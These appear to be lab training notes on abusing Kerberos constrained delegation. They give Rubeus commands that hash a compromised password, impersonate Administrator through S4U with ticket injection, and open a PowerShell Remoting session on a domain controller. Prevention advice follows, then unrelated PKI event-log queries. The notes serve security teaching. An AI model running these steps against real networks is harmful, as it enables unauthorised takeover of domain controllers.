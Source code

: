We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` can request a Kerberos ticket for any user in Active Directory and use it to connect to `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password we compromised before this attack into its `NTLM` hash equivalent:
```PowerShell
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:compromised_password
```

Then, we will use `Rubeus` to get a ticket for the `Administrator` account (arbitrary?):

```PowerShell
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:password_NTLM_hash /domain:ADdomain.fqdn /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:path.we.got.from.allowedtodelegateto /ptt

...
[+] TGT request successful!
...
[+] Ticket successfully imported!
...
```

We're using `/ptt` to impersonate `Administrator` in our session.

we can again verify our identity with `klist`.

With the ticket being available, we can connect to the Domain Controller impersonating the account `Administrator`:
```PowerShell
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```

If the last step fails (we may need to do `klist purge`, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the `/altservice` argument, such as `LDAP`, `CFIS`, `time`, and `host`.

## Prevention

Fortunately, when designing Kerberos Delegation, Microsoft implemented several protection mechanisms; however, it did not enable them by default to any user account. There are two direct ways to prevent a ticket from being issued for a user via delegation:

- Configure the property `Account is sensitive and cannot be delegated` for all privileged users.
- Add privileged users to the `Protected Users` group: this membership automatically applies the protection mentioned above (however, it is not recommended to use `Protected Users` without first understanding its potential implications).


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *